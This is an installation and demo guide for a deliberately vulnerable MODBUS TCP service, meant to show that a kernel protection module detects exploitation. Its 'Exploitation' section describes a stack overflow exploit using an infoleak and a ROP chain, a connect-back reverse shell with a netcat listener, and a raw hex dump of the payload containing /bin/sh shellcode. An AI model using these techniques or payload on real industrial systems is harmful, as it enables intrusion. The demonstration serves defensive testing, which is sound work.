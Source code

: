 # Demo Target: Installation & Usage Guide

----------

# Intro

The demo target is a simple vulnerable target MODBUS TCP service which supports MODBUS coil/bit/register writing and reading and writes its internal state to files upon every new request. The service contains a trivial stack-based buffer overflow vulnerability due to a small query buffer and as such functions normally for small queries while crashing (or being exploitable) to large ones. The target serves to demonstrate a semi-realistic ICS service, compiled with our minimum security baseline, working with a protocol (MODBUS TCP) common to the target setting and is intended to be protected by our solution. The goal of the demonstration is to showcase how the attacker's exploit gets detected by our solution.

# Installation

Create a target directory eg. `/home/pi/demotarget` and save `dummyserver.c` and `logic.py` there. Download [libmodbus v3.1.2](http://libmodbus.org/releases/libmodbus-3.1.2.tar.gz) upon which our application relies and unpack to `/home/pi/demotarget/libmodbus`. Compile the library:

```bash
$ cd libmodbus
$ chmod u+x configure
$ ./configure
$ make
$ sudo make install
$ sudo cp ./src/.libs/libmodbus.so.5 /usr/lib
```

Compile the dummy server with `gcc -Bdynamic -lc -ldl -lrt -lm -lpthread -lgcc_s -lmodbus -fstack-protector-all -Wformat -Wformat-security -Wconversion -Wsign-conversion -Wl,-z,relro,-z,now -Ilibmodbus/src -o dummyserver dummyserver.c` and execute it with `./dummyserver`. Test whether it works by running `python dummyclient.py` which should calculate a modular fibonacci sequence using the dummy server. Note that the service runs on port `1502` so take that into account when configuring any network related stuff.

# Usage

Regular usage of the dummy server is as follows:

```bash
$ ./dummyserver
$ python dummyclient.py
1
1
2
3
5
8
13
21
34
55
89
144
233
377
610
987
1597
2584
4181
$ ls -la
total 52
drwxr-xr-x 3 pi pi  4096 Mar 15 16:00 .
drwxr-xr-x 7 pi pi  4096 Mar 15 01:17 ..
-rw-r--r-- 1 pi pi   500 Mar 15 21:38 coils.save
-rw-r--r-- 1 pi pi   500 Mar 15 21:38 disc.save
-rwxr-xr-x 1 pi pi 13428 Mar 15 15:57 dummyserver
-rw-r--r-- 1 pi pi  4574 Feb 16 22:58 dummyserver.c
-rw-r--r-- 1 pi pi  1000 Mar 15 21:38 hreg.save
-rw-r--r-- 1 pi pi  1000 Mar 15 21:38 ireg.save
drwxr-xr-x 8 pi pi  4096 Mar 15 15:27 libmodbus
```

Here the dummy client performs a modular fibonacci calculation and the dummy server writes its internal state to a series of save files upon each new write.

# Exploitation

A premade exploit for the demo target has been included and can be run with `python sploit.py`. It exploits a stack buffer overflow in a fully-hardened (ASLR+NX+Stack Cookies+Full RELRO) DummyModbusSVC daemon using a partial-XOP payload. The included payload includes a connect-back TCP shell on port 4919 (since our network input and output aren't bound to stdin/stdout as they are with xinetd applications and as such can't simply spawn an execve-based `/bin/sh` shell) so make sure to set the right details in `sploit.py`:

```python
# Shellcode connect-back info
connectback_ip = '192.168.0.102'
connectback_port = 0x1337
```

Also, before executing the exploit, make sure to set up a ready-and-waiting netcat listener to receive our connect-back shell:

```bash
$ nc -l -p 4919
```

Exploitation then looks as follows:

```python
(attacker view 1)
root@debian:~/ut/demotarget# python dummysploit.py 192.168.0.102 1502 192.168.0.104 4919
[+] Opening connection to 192.168.0.102 on port 1502: Done
[*] Sending infoleak request...
[+] Got stackpointer: [be895640]
[+] Got stack cookie: [52102a00]
[+] Got libc base: [b6e14000]
[*] Building ROP chain...
[*] Argument-setting gadget: [b6ee8294]
[*] Dispatcher gadget: [b6e737e4]
[*] mprotect address: [b6ee1c30]
[*] shellcode address: [be895680]
[*] Sending exploit request...
[*] Closed connection to 192.168.0.102 port 1502

(target view)
pi@raspberrypi:~/demotarget $ ./dummyserver 
The client connection from 192.168.0.104 is accepted
Waiting for a indication...
<00><01><00><00><00><06><00><03><00><00><00><06>
[00][01][00][00][00][0F][00][03][0C][BE][89][56][40][52][10][2A][00][B6][E1][40][00]
Waiting for a indication...
<00><02><00><00><00><8F><00><10><00><01><00><44><88><41><41><41><41><41><41><41><41><41><41><41><41><41><41><41><41><41><41><41><00><2A><10><52><DE><C0><AD><0B><94><82><EE><B6><00><50><89><BE><FF><0F><00><00><07><00><00><00><30><1C><EE><B6><DE><C0><AD><0B><E4><37><E7><B6><DE><C0><AD><0B><80><56><89><BE><01><10><8F><E2><11><FF><2F><E1><02><20><01><21><92><1A><0F><02><19><37><01><DF><06><1C><08><A1><10><22><02><37><01><DF><3F><27><02><21><30><1C><01><DF><01><39><FB><D5><05><A0><92><1A><05><B4><69><46><0B><27><01><DF><C0><46><02><00><13><37><C0><A8><00><68><2F><62><69><6E><2F><73><68><00><42>
[00][02][00][00][00][06][00][10][00][01][00][44]
Waiting for a indication...

(attacker view 2)
root@debian:~# nc -l -p 4919
id
uid=1000(pi) gid=1000(pi) groups=1000(pi),4(adm),20(dialout),24(cdrom),27(sudo),29(audio),44(video),46(plugdev),60(games),100(users),101(input),108(netdev),997(gpio),998(i2c),999(spi)
uname -a
Linux raspberrypi 4.1.17+ #838 Tue Feb 9 12:57:10 GMT 2016 armv6l GNU/Linux
```

Note that the exploit hasn't been 'weaponized' and as such might not be 100% reliable in every possible edge case. Hence, in order to prevent any 'live demo effect' hickups it is best to simply restart the dummyserver before running the exploit.

# Detecting the exploit with the Kernel Protection Module (KPM)

Add the dummyserver to the KPM's protection:

```c
{ "dummyserver", 1, { __NR_mprotect, __NR_mmap, __NR_open, __NR_execve, __NR_connect, __NR_shutdown }, 6, 0, {}, 0 }
```

Start the KPM and the dummy server:

```bash
$ sudo insmod ./shield_core.ko
$ ./dummyserver
```

Run the exploit as above and inspect the kernel message log:

```bash
$ sudo dmesg | tail -n 100
[ 3263.284566] [*] Initializing shield_core...
[ 3263.284603] [+] Installed shield_core!
[ 3270.915181] [!] ..:: [SHIELD_CORE ALERT] ::..
[ 3270.915277] [!] [2016 03 15  21:29:02 192.168.0.102 CEF:0 | 5 | 1 | 1 | 1 | Exploitation of memory corruption vulnerability | 7 | dvchost=rpi dvcpid=2784 deviceProcessName=dummyserver outcome=log message=Heuristics (suspicious return address)]
[ 3270.933239] [!] ..:: [SHIELD_CORE ALERT] ::..
[ 3270.933299] [!] [2016 03 15  21:29:02 192.168.0.102 CEF:0 | 5 | 1 | 1 | 1 | Exploitation of memory corruption vulnerability | 7 | dvchost=rpi dvcpid=2784 deviceProcessName=dummyserver outcome=log message=Heuristics (suspicious return address)]
[ 3270.968888] [!] ..:: [SHIELD_CORE ALERT] ::..
[ 3270.968951] [!] [2016 03 15  21:29:02 192.168.0.102 CEF:0 | 5 | 1 | 1 | 1 | Exploitation of memory corruption vulnerability | 7 | dvchost=rpi dvcpid=2784 deviceProcessName=dummyserver outcome=log message=Heuristics (suspicious return address)]
[ 3271.036050] [!] ..:: [SHIELD_CORE ALERT] ::..
[ 3271.036153] [!] [2016 03 15  21:29:02 192.168.0.102 CEF:0 | 5 | 1 | 1 | 1 | Exploitation of memory corruption vulnerability | 7 | dvchost=rpi dvcpid=2784 deviceProcessName=dummyserver outcome=log message=Heuristics (suspicious return address)]
[ 3271.050812] [!] ..:: [SHIELD_CORE ALERT] ::..
[ 3271.050916] [!] [2016 03 15  21:29:02 192.168.0.102 CEF:0 | 5 | 1 | 1 | 1 | Exploitation of memory corruption vulnerability | 7 | dvchost=rpi dvcpid=2784 deviceProcessName=dummyserver outcome=log message=Heuristics (suspicious return address)]
[ 3271.050947] [!] ..:: [SHIELD_CORE ALERT] ::..
[ 3271.051012] [!] [2016 03 15  21:29:02 192.168.0.102 CEF:0 | 5 | 1 | 1 | 1 | Exploitation of memory corruption vulnerability | 7 | dvchost=rpi dvcpid=2784 deviceProcessName=dummyserver outcome=log message=Memory protection violation]
[ 3271.051154] [!] ..:: [SHIELD_CORE ALERT] ::..
[ 3271.051195] [!] [2016 03 15  21:29:02 192.168.0.102 CEF:0 | 5 | 1 | 1 | 1 | Exploitation of memory corruption vulnerability | 7 | dvchost=rpi dvcpid=2784 deviceProcessName=dummyserver outcome=log message=Heuristics (suspicious return address)]
[ 3271.062262] [!] ..:: [SHIELD_CORE ALERT] ::..
[ 3271.062326] [!] [2016 03 15  21:29:02 192.168.0.102 CEF:0 | 5 | 1 | 1 | 1 | Exploitation of memory corruption vulnerability | 7 | dvchost=rpi dvcpid=2784 deviceProcessName=dummyserver outcome=log message=Heuristics (suspicious return address)]
```
